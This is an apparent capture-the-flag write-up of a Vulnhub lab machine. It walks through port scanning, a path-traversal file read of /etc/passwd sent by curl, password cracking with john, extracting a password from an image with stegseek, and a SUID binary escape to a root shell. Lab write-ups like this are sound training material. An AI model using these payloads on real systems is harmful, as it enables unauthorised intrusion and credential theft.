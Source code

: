 
![0445d14e4e2fb7114abb336ec9d8a2cf5ed84566](https://github.com/user-attachments/assets/2fcb4641-5c46-4d88-a820-f1115d958918)

---



`Creator`:  [Ajay Verma](https://www.vulnhub.com/author/ajay-verma,598/)

`Page`: [Vulnhub](https://www.vulnhub.com/)


---

- I start with a scan of the open ports,
    
    ```bash
    nmap -p- --open -vvv -sS --min-rate 5000 -Pn -oG scan 192.168.56.106 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/9689e1d7-ccd4-4a63-84e8-628afb7292a6)

    
- Scanning open ports.
    
    ```bash
    nmap -p80,1337,12320,12321,12322-sCV 192.168.56.106 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/4a213661-874a-41e6-9813-7e86503562c6)

    

- I look at what technologies they are using on the two websites.
    
    ```bash
    whatweb http://192.168.56.106/
    whatweb https://192.168.56.106:1337/
    whatweb https://192.168.56.106:12320/
    whatweb https://192.168.56.106:12322/
    ```
    
    ![image 2](https://github.com/user-attachments/assets/eda67d95-2b8a-4311-892a-8cdff5ccc05f)

    

- I access the different web pages to get a first impression of them in case I see something peculiar.
    
    ![image 3](https://github.com/user-attachments/assets/32b0dbc2-74d1-4f32-883a-b61eb81a03a9)

    
    ![image 4](https://github.com/user-attachments/assets/2342a2b8-b583-458c-a4fe-1053a8f1fd4f)

    
    ![image 5](https://github.com/user-attachments/assets/82a1277b-0b2c-487f-9bb4-1fb46f5250e7)

    
    ![image 6](https://github.com/user-attachments/assets/eefdc26f-63ab-40f2-a4d4-037c9e8e3e08)

    

- I check again the port scan and I see for `12322` a `robots.txt`, I take a look at it
    
    ![image 7](https://github.com/user-attachments/assets/562d7a16-cfc2-4f75-9d7e-56539f04c832)

    
    ![image 8](https://github.com/user-attachments/assets/4382ce2b-c4f6-4f0f-a21e-b8247927da89)

    
- When entering `file_view.php` it tells me that there is a parameter with which we can possibly read internal file (`LFI`)
    
    ![image 9](https://github.com/user-attachments/assets/cc539d4e-eef9-4598-96da-b097fa9a5c85)

    

- After trying different ways to enter the parameter, I find that we should indicate it in the body of a POST request
    
    ```bash
    curl -k -x POST "https://192.168.56.106/file_view.php" -d "../../../../../../../../../../../etc/hosts" 2>/dev/null
    curl -k -x POST "https://192.168.56.106/file_view.php" -d "../../../../../../../../../../../etc/passwd" 2>/dev/null | grep -v "/bin/false" | grep -v "nolog"
    ```
    
    ![image 10](https://github.com/user-attachments/assets/cd701ea3-ae74-4466-91be-193c86b075c3)

    
    ![image 11](https://github.com/user-attachments/assets/72c77b2b-b966-4eed-8f5e-aa6213f37eae)

    

- I find two users, `n30` and `testuser`. I try to access through port `12320` using the same user and password. I manage to login with `testuser`
    
    ![image 12](https://github.com/user-attachments/assets/2e7d7c58-a95c-47d5-8d62-f5d16ff7f35e)

    

- I check the files inside the directory of the web pages and find a possible credential.
    
    ![image 13](https://github.com/user-attachments/assets/13dc8ed7-ef81-4f0c-9f48-129b789f8c89)

    

- I use a page to see what kind of encryption this string might be.
  
    [Decrypt MD5, SHA1, MySQL, NTLM, SHA256, MD5 Email, SHA256 Email, SHA512, Wordpress, Bcrypt hashes for free online](https://hashes.com/en/decrypt/hash)
    
    ![image 14](https://github.com/user-attachments/assets/f3b30f2a-d163-40c3-8e25-1c7bb182efe9)

    

- I try to break the password with `john` and using a `md5crypt` encryption format. It gives me a possible password
    
    ```bash
    john -w /usr/share/wordlist/rockyou.txt hash --format=md5crypt
    ```
    
    ![image 15](https://github.com/user-attachments/assets/59df5d80-2421-4229-9a91-9f78c56f4d4a)

    
- I use the credentials found to access the port `1337` web page. At first glance I don't see anything interesting but on reviewing the source code I find a comment referring to an image.
    
    ![image 16](https://github.com/user-attachments/assets/33491752-eae8-4a3d-9ee8-a40c19ac7b94)

    
    ![image 17](https://github.com/user-attachments/assets/237322b2-31f3-42be-b8cc-c5bd6faeb121)

    

- I set up a server with `python` on port `8000` to download the image to my machine.
    
    ```bash
    python3 -m http.server
    wget https://192.168.56.106:8000/h1dd3n.jpg
    ```
    
    ![image 18](https://github.com/user-attachments/assets/278fe943-4ee7-40b3-8b23-b75e99bfe008)

    
- I try to look at the text strings in the photo but find nothing interesting so I try `stegseek` and get a possible password.
    
    ```bash
    stegseek h1dd3n.jpg
    ```
    
    ![image 19](https://github.com/user-attachments/assets/f2646e90-48c2-4ad9-9f97-eee324f16aee)

    
- I use the password with the user `n30` and I manage to pivot to that user.
    
    ![image 20](https://github.com/user-attachments/assets/8d6e0f8e-86f7-40b4-9cf4-7a5eef0351f7)

    
- I check the bash history of this user and I find a strange command, I see that he has `SUID` permission.
    
    ![image 21](https://github.com/user-attachments/assets/bb219458-2bcc-497a-bdc1-073519c468f0)

    
- I run it and become root
    
    ```bash
    /usr/bin/morpheus 'BEGIN {system("/bin/sh")}'
    ```
    
    ![image 22](https://github.com/user-attachments/assets/432c4f3c-105b-4122-a549-10fef49ba60d)
